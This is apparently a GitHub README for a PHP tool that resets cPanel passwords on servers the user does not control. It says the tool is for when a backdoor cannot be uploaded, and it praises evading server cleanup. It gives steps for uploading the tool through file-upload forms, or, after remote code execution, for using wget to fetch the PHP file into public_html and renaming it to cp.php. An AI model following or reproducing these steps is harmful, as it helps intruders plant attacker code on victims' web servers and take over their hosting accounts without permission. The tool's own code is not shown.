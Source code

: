 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()
https://github.com/naufalardhani/cpanel-pass-reset/releases
[![undefined](https://badgen.net/badge//Linux64/orange?icon=terminal)](https://github.com/naufalardhani/cpanel-pass-reset/releases)

An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.

How to usage? Check this https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html


<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. ```wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php```
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 
